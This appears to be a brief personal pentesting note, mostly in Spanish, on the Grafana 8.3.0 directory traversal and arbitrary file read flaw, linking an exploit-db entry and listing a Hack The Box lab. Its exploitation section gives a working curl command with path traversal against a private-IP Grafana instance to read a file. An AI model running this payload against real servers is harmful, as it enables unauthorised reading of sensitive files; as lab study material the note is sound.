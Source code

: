 ## DESCRIPTION


Grafana 8.3.0 - Directory Traversal and Arbitrary File Read



#### Mas información
* https://www.exploit-db.com/exploits/50581


## EXPLOITATION

```
#Ejemplo
curl --path-as-is http://192.168.122.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt  
```

![[Pasted image 20230411184509.png]]

## MACHINES

* Hack The Box: 
